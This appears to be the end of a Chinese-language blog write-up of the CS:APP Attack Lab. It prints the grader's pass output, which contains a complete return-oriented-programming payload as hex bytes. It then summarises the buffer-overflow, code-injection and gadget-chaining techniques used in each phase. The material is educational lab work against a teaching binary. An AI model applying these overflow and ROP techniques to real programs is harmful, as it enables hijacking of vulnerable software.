 最终结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## 总结

1. phase 1 很简单，让 buffer overflow 溢出，然后覆盖返回地址即可
2. phase 2 需要让`%rdi`的值等于`cookie`的值，我们需要插入一部分自己的攻击代码，比 Phase 1 难度稍微高点
3. phase 3 中我们需要插入自己的攻击字符串，然后让`ret`指令返回到攻击代码开始处，通过指令将`%rdi`的值设置为攻击字符串的地址，并且把`touch3`的地址压到栈上。这里的难点在于`hexmatch`和`strncmp`中出现了`push`的压栈操作，并且使用了一段随机的 buffer，如果把攻击字符串放在攻击代码之前，会导致攻击字符串被破坏。因此这里的核心是把攻击字符串放在 caller 函数(`test`)的栈空间内（在返回地址下面），然后让`%rdi`指向这里
4. phase 4 & phase 5 的难点在于将过程理清楚，并且在`rtarget`中找到对应的`gadget`，将栈上作为`gadget`地址和数值的组合，巧妙地运用`popq`和`ret`和其他指令组合出我们想要的操作。
5. phase 5 的核心在于首先确定`rax = rdi + rsi`，并且这两个寄存器一个存储`%rsp`，一个存储偏移量。要将数据输入到这两个寄存器，随后不断的通过反推，找到以他们为目标地址的指令通用结构，在`rtarget`中查找到相关指令，然后确定其源寄存器。再来反推什么指令能将数据输送到源寄存器。打通一条通路，然后确定每个 gadget 的地址，最后串联起来就是我们想要的 gadget 列表！这个过程收获很大！

虽然做这 5 个 Phase 的过程不容易，但是总体来说受益匪浅！

## 参考资料

- [CSAPP 实验之 attack lab](https://zhuanlan.zhihu.com/p/60724948)
- [CSAPP | Lab3-Attack Lab 深入解析](https://zhuanlan.zhihu.com/p/476396465)
- [csapp-attacklab 详解](https://zhuanlan.zhihu.com/p/410418053)

